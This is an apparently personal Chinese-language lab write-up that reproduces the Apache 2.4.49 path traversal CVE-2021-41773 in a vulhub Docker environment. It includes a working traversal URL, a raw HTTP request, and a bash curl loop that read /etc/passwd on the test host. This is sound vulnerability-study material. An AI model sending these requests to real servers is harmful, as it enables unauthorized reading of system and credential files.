 # 一、概述
`CVE-2021-41773`是Apache Http Server 路径穿越漏洞，所谓的路径穿越即为：攻击者可以访问出web目录以外的其他目录文件。但是需要注意的是，这个漏洞的造成很大一部分的原因是由于，服务提供者的错误配置造成的。`CVE-2021-41773`产生的前提是：
* Apacher Server 版本等于2.4.49
* 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。**（默认情况下是不允许的）**

# 二、影响版本
* Apache Server == 2.4.49

# 三、靶场复现
* 开始搭建靶场，这里我还是使用`vulhub`进行线下靶场的搭建
```linux
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# ls
1.png  2.png  docker-compose.yml  Dockerfile  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# pwd
/home/wq/vulhub-master/httpd/CVE-2021-41773
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# docker-compose up -d
Creating network "cve-2021-41773_default" with the default driver
Creating cve-2021-41773_apache_1 ... done
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# docker ps
CONTAINER ID   IMAGE                   COMMAND              CREATED              STATUS          PORTS                                   NAMES
ac6fafd1c48a   cve-2021-41773_apache   "httpd-foreground"   About a minute ago   Up 59 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   cve-2021-41773_apache_1
```
* 靶场环境测试，开始访问：`http://192.168.10.134:8080/`发现可以正常访问，靶场搭建成功
![图 1](.images/CVE-2021-41773/IMG_20220115-220018740.png)  

# 四、开始漏洞复现
* 一般情况正常的GET请求是无法跨过Web目录访问系统目录的，即使在当前可能存在这个漏洞的情况下，也无法直接通过浏览器进行穿越目录进行访问。
* 首先我们先访问一个正常可以访问的目录
![图 1](.images/CVE-2021-41773/IMG_20220116-092604593.png)  
* 尝试在浏览器中使用`..`或者`%2e%2e`的方式进行尝试跨路径访问
![图 2](.images/CVE-2021-41773/IMG_20220116-113129575.png)  
![图 3](.images/CVE-2021-41773/IMG_20220116-113153257.png)  
* 后来打算使用python写request最后还是因为windows编码问题使用无法得到想要的请求，因为`%2e`,使用在发出请求是被编码为`.`
`http://192.168.30.14:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
* 最后还是使用linux的curl请求，完成验证，但是最终为了得到正确的路径还是需要写shell脚本进行请求，得到正确的路径
* 开始进行curl请求测试：，测试成功。
![图 4](.images/CVE-2021-41773/IMG_20220116-113434028.png)  
* 这是shell脚本测试
![图 6](.images/CVE-2021-41773/IMG_20220116-142659901.png)  
# 使用`BP`进行修改测试
```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: 192.168.10.134:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-HK
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
![图 7](.images/CVE-2021-41773/IMG_20220116-143030622.png)  

# 附录 SHell测试
``` linux
#! /bin/bash
ip=192.168.10.134
port=8080
for path in ".%2e" ".%2e/%2e%2e" ".%2e/%2e%2e/%2e%2e" ".%2e/%2e%2e/%2e%2e/%2e%2e" ".%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e"
do
  echo $path
  req="http://$ip:$port/icons/$path/etc/passwd"
  echo $req
  curl $req
  echo "~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
done
```
# 总结：
* `CVE-2021-41773` 主要存在与Apache Http Server 版本为2.4.49 ，需要注意的是不要在浏览器中直接进行跨路径访问，因为可能由于浏览器与系统的问题，进行错误的编码，建议使用linux或者BP软件进行修改后测试
* 需要注意的是，在Apache Http Server 版本为2.4.50中同样存在相同的漏洞，但是请求的编码是不同的
